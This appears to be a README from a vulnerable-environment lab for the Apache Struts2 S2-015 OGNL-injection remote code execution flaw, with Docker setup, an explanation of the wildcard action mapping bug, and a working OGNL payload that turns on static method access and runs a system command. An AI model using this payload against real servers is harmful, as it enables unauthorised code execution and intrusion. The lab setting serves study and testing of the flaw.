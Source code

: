 # S2-015 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Version: 2.0.0 - 2.3.14.2

Details: http://struts.apache.org/docs/s2-015.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Refer

Struts 2 allows define action mapping base on wildcards, like in example below:

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

If a request doesn't match any other defined action, it will be matched by * and requested action name will be used to load JSP file base on the name of action. And as value of {1} is threaten as an OGNL expression, thus allow to execute arbitrary Java code on server side. This vulnerability is combination of two problems:

1. requested action name isn't escaped or checked agains whitelist
2. double evaluation of an OGNL expression in TextParseUtil.translateVariables when combination of $ and % open chars is used.

## Expliot

Payload as follows：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

Result:

![](01.png)

In addition to the above situation, S2-015 has another case of code execution:

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

Result:

![](02.png)